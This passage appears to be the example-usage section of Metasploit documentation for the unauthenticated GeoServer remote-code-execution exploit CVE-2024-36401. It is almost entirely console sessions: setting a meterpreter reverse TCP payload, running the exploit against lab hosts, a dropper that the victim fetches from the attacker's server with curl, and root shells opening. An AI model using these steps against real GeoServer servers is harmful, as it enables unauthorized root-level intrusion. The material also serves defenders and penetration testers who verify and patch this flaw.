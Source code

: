 ```msf
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set target 1
target => 1
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set payload linux/x64/meterpreter_reverse_tcp
payload => linux/x64/meterpreter_reverse_tcp
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set srvport 1981
srvport => 1981
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target appears to be vulnerable. Version 2.23.2
[*] Executing Linux Dropper for linux/x64/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.8:1981/FEflDEJ
[*] Client 192.168.201.42 (curl/7.74.0) requested /FEflDEJ
[*] Sending payload to 192.168.201.42 (curl/7.74.0)
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 10 opened (192.168.201.8:4444 -> 192.168.201.42:60353) at 2024-07-11 18:48:02 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.21.0.2
OS           : Debian 11.3 (Linux 6.6.32-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > pwd
/mnt/geoserver
meterpreter >
```
###  GeoServer 2.25.0 on osgeo.org/geoserver docker image - linux/x64/meterpreter_reverse_tcp
```msf
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set target 1
target => 1
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set payload linux/x64/meterpreter_reverse_tcp
payload => linux/x64/meterpreter_reverse_tcp
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target appears to be vulnerable. Version 2.25.0
[*] Executing Linux Dropper for linux/x64/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.8:1981/CEkJIBo
[*] Client 192.168.201.42 (curl/7.81.0) requested /CEkJIBo
[*] Sending payload to 192.168.201.42 (curl/7.81.0)
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 11 opened (192.168.201.8:4444 -> 192.168.201.42:61350) at 2024-07-11 20:46:14 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 22.04 (Linux 6.6.32-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
```